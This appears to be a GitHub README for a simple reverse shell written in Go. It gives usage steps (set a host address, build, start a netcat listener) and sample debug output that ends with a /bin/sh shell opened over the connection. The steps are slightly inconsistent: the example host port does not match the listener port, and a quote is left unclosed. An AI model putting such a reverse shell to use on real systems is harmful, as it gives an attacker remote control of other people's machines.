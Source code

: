 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Start listening on the server using `netcat -l -p 8080`

Example debug output
```
github.com/orf1/reverse-shell-go
Attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
Attempting to establish tcp connection with server
Connection established
Detecting operating system
Detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
